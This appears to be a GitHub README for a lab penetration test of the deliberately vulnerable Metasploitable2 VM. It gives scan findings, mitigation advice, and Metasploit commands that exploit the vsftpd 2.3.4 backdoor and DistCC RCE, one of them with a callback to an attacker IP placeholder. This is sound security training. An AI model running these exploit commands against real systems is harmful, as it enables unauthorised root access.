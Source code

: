 # Penetration Testing on Metasploitable2

## Overview
This project involves conducting penetration testing on the Metasploitable2 virtual machine using **Kali Linux**. The main objective was to identify, analyze and exploit vulnerabilities in web and network services while documenting findings and mitigation strategies.

## Tools Used
- **Metasploitable2**: A vulnerable Linux VM used as the target.
- **Kali Linux**: The attacker machine.
- **Nikto**: Web vulnerability scanner.
- **OpenVAS**: Network vulnerability assessment tool.
- **Metasploit Framework**: Exploitation tool.
- **Nmap**: Network scanner.


## 📊 Vulnerabilities Discovered

### 🔍 **Web Vulnerabilities (Nikto Scan)**
| **Vulnerability** | **CWE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **Clickjacking** | CWE-1021 | X-Frame-Options header missing, allowing UI redress attacks. | Medium |
| **Directory Browsing** | - | Allows browsing of sensitive files that attackers can access. | Medium |

### 🔍 **Network Vulnerabilities (OpenVAS Scan)**
| **Vulnerability** | **CVE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **DistCC Remote Code Execution (RCE)** | CVE-2004-2687 | Attackers can execute arbitrary commands remotely. | High |
| **vsftpd 2.3.4 Backdoor** | CVE-2011-2523 | Backdoor in vsftpd allows unauthorized root access. | Critical |
| **OpenSSL MITM Attack** | CVE-2014-0224 | SSL/TLS vulnerability allowing encrypted traffic interception. | High |

---

## 💻 Exploitation Demonstrations
### **1️⃣ Exploiting vsftpd 2.3.4 Backdoor**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable_IP>
exploit
whoami  # Confirms root access


### 2️⃣ Exploiting DistCC RCE
msfconsole
use exploit/unix/misc/distcc_exec
set RHOST <Metasploitable_IP>
set LHOST <Attacker_IP>
exploit
whoami  # Confirms access

```

## 🔐 Security Recommendations
To mitigate these vulnerabilities, the following security measures should be implemented:

### For Web Vulnerabilities:
✅ Enable X-Frame-Options to protect against clickjacking.  
✅ Disable directory listing in Apache/Nginx configurations.  
✅ Implement Content Security Policy (CSP) to control how resources are loaded.  

### For Network Vulnerabilities:
✅ Patch vsftpd 2.3.4 to the latest version.  
✅ Disable unused services like DistCC to minimize attack surface.  
✅ Use strong encryption (TLS 1.2/1.3) instead of outdated OpenSSL versions.  

### General Recommendations:
✅ Use a Web Application Firewall (WAF).  
✅ Regularly scan for vulnerabilities using OpenVAS and Nikto.  
✅ Implement strict access controls and monitoring.  

---

## 📂 Project Structure
Penetration-Testing-Metasploitable2/
│── README.md  # Project Documentation
│── Final_MetasplotableReport.pdf  # Full project report
│── screenshots/
│   ├── nikto_scan.png
│   ├── openvas_results.png
│   ├── metasploit_exploit.png
│── scripts/
│   ├── metasploit_vsftpd_exploit.rc


## 📜 Resources
Here are some useful resources for further learning:

- 📌 [Metasploitable2 VM](https://sourceforge.net/projects/metasploitable/)
- 📌 [Kali Linux](https://www.kali.org/)
- 📌 [Metasploit Framework](https://www.rapid7.com/products/metasploit/)
- 📌 [Nikto Web Scanner](https://cirt.net/nikto2)
- 📌 [OpenVAS Scanner](https://www.openvas.org/)




